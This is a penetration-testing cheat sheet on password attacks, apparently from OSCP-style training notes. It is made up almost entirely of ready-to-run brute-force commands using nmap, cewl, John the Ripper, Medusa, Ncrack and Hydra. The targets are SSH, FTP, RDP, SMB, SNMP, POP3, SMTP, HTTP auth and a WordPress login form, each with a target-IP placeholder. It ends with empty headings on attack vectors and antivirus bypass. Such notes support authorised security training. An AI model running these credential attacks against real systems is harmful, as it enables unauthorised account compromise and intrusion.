 # Additional

## Password Attacks


### Brute Force

#### Nmap Brute forcing Scripts
        [*https://nmap.org/nsedoc/categories/brute.html*](https://nmap.org/nsedoc/categories/brute.html)

#### Nmap Generic auto detect brute force attack:

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# nmap --script brute -Pn <target.com or ip>
A> ~~~

#### MySQL nmap brute force attack:


nmap --script=mysql-brute $ip


### Dictionary Files

#### Word lists on Kali


cd /usr/share/wordlists

### Password Profiling

#### cewl can generate a password list from a web page


root@linux:~# cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt


### Password Mutating

#### John the ripper can mutate password lists

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# nano /etc/john/john.conf
A> root@linux:~# john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
A> ~~~

### Medusa

#### Medusa, initiated against an htaccess protected web

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10
A> ~~~

### Ncrack

#### ncrack (from the makers of nmap) can brute force RDP

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# ncrack -vv --user offsec -P password-file.txt rdp://$ip
A> ~~~


### Hydra

#### Hydra brute force against SNMP

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -P password-file.txt -v $ip snmp
A> ~~~

#### Hydra FTP known user and rockyou password list

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp
A> ~~~

#### Hydra SSH using list of users and passwords

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh
A> ~~~

#### Hydra SSH using a known password and a username list

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh
A> ~~~

#### Hydra SSH Against Known username on port 22

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt
A> ~~~~

#### Hydra POP3 Brute Force

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V
A> ~~~

#### Hydra SMTP Brute Force

A> {line-numbers=on,lang=console}
A> ~~~
A>  root@linux:~# hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V
A> 

 #### Hydra attack http get 401 login with a dictionary

A> {line-numbers=on,lang=console}
A> ~~~
root@linux:~# hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin


#### Hydra attack Windows Remote Desktop with rockyou

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip
A> ~~~

#### Hydra brute force SMB user with rockyou:

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb
A> ~~~

#### Hydra brute force a Wordpress admin login

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
A> ~~~










## Attack Vectors



## Bypassing Antivirus Software



